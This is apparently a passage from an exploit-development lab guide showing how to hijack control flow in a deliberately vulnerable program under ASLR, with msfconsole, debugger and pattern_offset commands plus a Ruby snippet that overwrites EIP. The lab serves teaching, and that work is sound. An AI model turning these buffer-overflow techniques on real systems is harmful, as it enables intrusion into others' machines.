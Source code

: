 > Note: This example has included the pattern_offset call for you. 

### 1 - Hijack Control Flow {#1-hijack-control-flow}

Even though different sections of the program are loaded into memory at random locations, the offset to the EIP will remain the same on subsequent runs. This is because the size of the buffer and the parameters that we are working with are not randomised.

Similar to earlier buffer overflow exercises, our target is the return address of the `vuln()` function on the stack. This part of the lab should feel familiar.

==action: Run the exploit directly from the command line:==

```bash
msfconsole -x 'use exploit/linux/misc/aslr_bof1; set RHOST ==edit:Desktop-IP-address==; set LHOST ==edit:Kali-IP-address==; exploit'
```

> Tip: After the exploit has run you can run the same version again by running `exploit` or press `Ctrl-D` to exit msfconsole and then run the above command to run an updated version of your exploit.

When prompted to attach your debugger...

==VM: On your Desktop Debian Linux VM==

==action: Start debugging the program:==

```bash
edb --attach `pgrep -n Ch_aslr_BOF_1`
```

> Note: Edb automatically pauses execution when attaching to a process. Resume execution by pressing the 'play' button.

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Hit enter to resume your exploit==.

==VM: On your Desktop Debian Linux VM (victim service)==

The exploit should have caused an Illegal Access Fault (a segfault). The error message will provide an address you can use to calculate the offset to the controlled ==edit:EIP-value==.

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Calculate the offset using metasploit's pattern_offset.rb script:==

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q ==edit:EIP-value== -l 500
```

> Note: Note this down as the ==edit:EIP-Offset-Value==.

==action: Update your script. Comment out the code under "Step 1" and add the following code under Step 2. For now we are just storing the string "BBBB", or 0x42424242 in the EIP:==

```ruby
eip_offset= "==edit:EIP-Offset-Value=="
padding = "A" * eip_offset
eip = "BBBB"
bad = padding + eip
```
